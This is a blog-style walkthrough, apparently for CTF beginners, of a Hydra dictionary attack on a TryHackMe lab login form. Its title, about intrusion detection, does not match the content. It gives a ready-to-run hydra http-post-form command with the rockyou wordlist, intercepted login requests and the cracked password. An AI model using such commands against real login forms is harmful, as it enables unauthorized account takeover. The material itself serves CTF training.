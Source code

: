 ```yaml
---
title: Working With Intrusion Detection System (IDS) Part 2
author: Ansh Vaid
date: 2021-12-07 7:10:00 +0530
categories: [Cyber Forensics]
tags: [IDS, Intrusion Detection System, HIDS, NIDS, Windows, Rules, Malicious, Requests, Linux, Host based]

---
```


![hack](/assets/EthicalHacking/hydrabanner.jpg)

Image taken from <a href="https://miro.medium.com/max/2000/1*NCTCiMU_5o6EgFKUp90wUA.jpeg">here</a>

---


---

---

In this blog I am going to discuss how a simple login form could be compromised by a dictionary attack if the username of any account is known to the attacker. Many CTF players encounter various challenges in which this technique could be used in cracking the password of user account in web category challenges, and many participants who are beginner in cyber domain, miss this thing.
Discussing about real life scenario, then if a web developer has created a website for a particular organization, where the employees login to their respective portal by entering their username and password only, in such scenarios the login form is very vulnerable if the username of the person is compromised. This is the main reason why login forms ask email id instead, and OTP if you successfully login to account or even a limit on number of requests in a particular time span is set to encounter such attacks.
There are two tools by which this dictionary attack could be done on the login forms:
Burp suite
Hydra
Even CURL could be used to do so if you know how to integrate it with SHELL script. Burp suite is a widely used tool, be it in the penetration testing part, CTFs, MITM attacks, dictionary attacks etc. It has an option to send the intercepted request to intruder (ctrl+i) where dictionary related attacks could be performed. Most of the students download the cracked version of Burp suite professional to unlock advance options. But using such cracked versions have a risk of getting your own device compromised. Most of the people just download the cracked versions to speed up the dictionary attacks. In such cases a person can use Hydra tool, which is widely used to do the dictionary attacks on various services like SSH, FTP etc. and also the login forms too. Also the speed would be more as compared to Burp suite tool, because we can increase or decrease the number of threads of Hydra tool using -t option, and it supports around 44 threads at a time.
Vulnerable lab setup:
> Task 9 of https://tryhackme.com/room/adventofcyber3
> Use openvpn application to access the THM lab
> Username Santa is known beforehand

![hack](/assets/EthicalHacking/hydra1.jpg)
![hack](/assets/EthicalHacking/hydra2.jpg)
![hack](/assets/EthicalHacking/hydra3.jpg)
![hack](/assets/EthicalHacking/hydra4.jpg)

Login form

Username santa known beforehand

Type any random password

Setting up proxy
Run Burp suite tool, start the interceptor and apply the proxy settings in your web browser. Click on Login button in the login page. Since the password is wrong I will definitely get an error message displayed on the screen.

![hack](/assets/EthicalHacking/hydra5.png)
![hack](/assets/EthicalHacking/hydra6.png)

Error message generated on unsuccessful login

Intercepted request after Login button was pressed in login form
Following is the intercepted request that was generated on pressing Login button.
POST / HTTP/1.1
Host: 10.10.238.99
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://10.10.238.99
Connection: close
Referer: http://10.10.238.99/
Cookie: PHPSESSID=uep84ftk3h44nhiqerv5p8rovb
Upgrade-Insecure-Requests: 1

username=santa&password=randomPassword&submit=Login
Copy username=santa&password=randomPassword&submit=Login part from the intercepted request, and now I will show how it could be used with hydra to crack the password of username santa.
hydra -l santa -P /usr/share/wordlists/rockyou.txt 10.10.238.99 http-post-form “/:username=^USER^&password=^PASS^&submit=Login:F=Invalid username and password” -V
Explanation of above command is as follows:
> Use -l option if you know the username, and -L option to give a file path having list of usernames. Since username santa is known, therefore option -l is used in above command.
> Use -p option if you know the password, and -P option to give a file path having list of passwords. Since password is unknown, therefore option -P is used in above command. rockyou.txt is the file having list of passwords, and mostly in every CTF you will find the password from this file only.
> IP address or domain name of the website where the form is present
> Since this form is sending the credentials in POST method, therefore http-post-form is used.
> “<URL of the page where login form is present>:<parameter containing username> = ^USER^<parameter containing password> = ^PASS^<paste other parameters as it is>:F=<error message displayed on unsuccessful login which I have shown with arrow in above snapshot>”
> -V option for verbose mode, add -t option if you want to increase the number of threads.

![hack](/assets/EthicalHacking/hydra7.jpg)
![hack](/assets/EthicalHacking/hydra8.png)

PRESS ENTER KEY TO RUN THE COMMAND

Password for username santa is cookie
Now the request will have correct password cookie for username santa.
POST / HTTP/1.1
Host: 10.10.238.99
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://10.10.238.99
Connection: close
Referer: http://10.10.238.99/
Cookie: PHPSESSID=uep84ftk3h44nhiqerv5p8rovb
Upgrade-Insecure-Requests: 1


username=santa&password=cookie&submit=Login

![hack](/assets/EthicalHacking/hydra9.jpg)

Login successful
In this way you can customize the hydra command for other login forms in CTF challenges or in vulnerable websites and your dictionary must have that password in it, otherwise no matches would be found an dictionary will over.
Another room in THM to know more on Hydra: https://tryhackme.com/room/hydra
In this blog I discussed how Hydra could be used instead of Burp suite for a dictionary attack on login page whose username is known. Since the dictionary attack in community edition of burp suite is very slow and cracked version of burp suite could compromise your device, Hydra is a better option in such cases.
Social Media Links: LinkedIn | GitHub | Instagram | Twitter
Visit My Website: https://cybergeeks.website/
Originally published at https://github.com.